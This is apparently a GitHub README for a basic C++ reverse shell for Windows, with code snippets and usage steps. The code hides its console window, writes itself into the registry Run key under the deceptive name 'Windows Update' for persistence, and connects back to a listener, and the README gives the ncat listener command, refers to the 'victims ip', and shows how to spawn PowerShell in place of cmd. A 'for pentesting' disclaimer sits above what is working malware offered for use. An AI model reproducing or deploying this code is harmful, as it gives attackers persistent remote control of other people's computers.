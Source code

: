# reverse-shell
a basic reverse shell for windows operating systems in c++

# This is not malware this is for pentesting!!!
Here is the initialize shell code
```cpp
    FreeConsole();

    HKEY hkey = NULL;
    LONG createStatus = RegCreateKey(HKEY_CURRENT_USER, "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", &hkey);     
    LONG status = RegSetValueEx(hkey, "Windows Update", 0, REG_SZ, (BYTE*)argv[0], (std::string(argv[0]).size() + 1) * sizeof(wchar_t));

    char host[] = "localhost";
    int port = 0xDEAD;
    RunShell(host, port);
```

# Access
You can access the shell by opening a port and hosting a ncat server
```cpp
nc -lvp 57005
```
Then it should say (1.1.1.1 is a replacement ip it's the victims ip)
```yml
Ncat: Connection from 1.1.1.1
```
Then press enter and you got a shell

# Features
Infect Windows Startup with registry
Reverse Shell via raw sockets
If you want to pop something else than cmd you change this line
```cpp
char Process[8] = "cmd.exe";
```

to for example powershell
```cpp
char Process[15] = "powershell.exe";
```

